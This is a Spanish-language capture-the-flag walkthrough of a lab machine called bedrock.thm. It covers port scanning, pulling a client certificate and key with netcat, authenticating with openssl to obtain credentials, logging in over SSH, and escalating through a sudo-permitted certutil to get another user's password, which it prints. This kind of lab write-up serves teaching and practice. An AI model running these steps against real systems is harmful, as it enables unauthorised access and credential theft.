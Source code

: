 
# INTRODUCCION
Algunos servidores (ahora la mayoria) requieren que la comunicacion con el cliente se realice de forma segura, es decir que los datos vayan encriptados y
que el cliente o el servidor o ambos se autentifiquen mediante un certificado. En el certificado va incluida la clave publica del cliente, de forma que
el servidor utiliza esta clave para encriptar los datos y enviarselos encriptados al cliente, el cual los desencripta utilizando la clave privada que ha sido generada junto al certificado
# SCAN

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
4040/tcp  open  yo-main
9009/tcp  open  pichat
54321/tcp open  unknown
```
Tenemos los  siguiente:
1. En el puerto 80 corre un servidor nginx que nos redirige al puerto 4040 
2. En el puerto 4040 hay un webserver TSL
3. Hay un servidor que requiere conexion TSL, es decir con certificado 54321
4. El servidor localizado en el puerto 9009 emite los certificados

# PUERTO 9009

Utilizando netcat podemos conectar con el puerto 9009 donde obtenemos el certificado

> $ nc bedrock.thm 9009
Obtenemos la clave privada y la clave publica (certificado)

# 54321

En este puerto hay un servidor TSL y por tanto debemos acreditarnos mediante nuestra clave publica (certificado) y nuestra clave privada
Para acceder al servidor utilizamos openssl:
> $ openssl s_client -connect bedrock.thm:54321 -cert <clave-publica> -key <clave-privada>
  Esto nos da acceso a un CLI y con el comando:
  - user: obtenemos el username: 'Barney Rubble'
  - password: obtenemos el password: d1ad7c0a3805955a35eb260dab4180dd
  
# SSH
Con las anteriores credenciales intento logearme en ssh pero el password no me sirve ¿Estará codificado?
Pues no, se trata del password en plain text. El problema es que el usuario no es 'Barney Rubble' si no barney. Asi si puedo
> $ ssh barney@bedrock.thm

  ## privilege escalation
  vemos que barney puede ejecutar el comando /usr/bin/certutil con sudo
 ```
  barney@b3dr0ck:/etc$ sudo -l                                                                                                                                 
Matching Defaults entries for barney on b3dr0ck:                                                                                                             
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                               
                                                                                                                                                             
User barney may run the following commands on b3dr0ck:                                                                                                       
  (ALL : ALL) /usr/bin/certutil 
 ```
 Entonces podemos utilizar este comando para crear una nueva clave publica y privada para Fred Flinstone:
 > sudo /usr/bin/certutil fred  'Fred Flintstone"
 Con esto podemos otra vez conectar con el servidor en el puerto 54321
 e igual que hicimos antes conseguir el user y el password de Fred:
 user: fred
 pass: YabbaDabbaD0000!
 

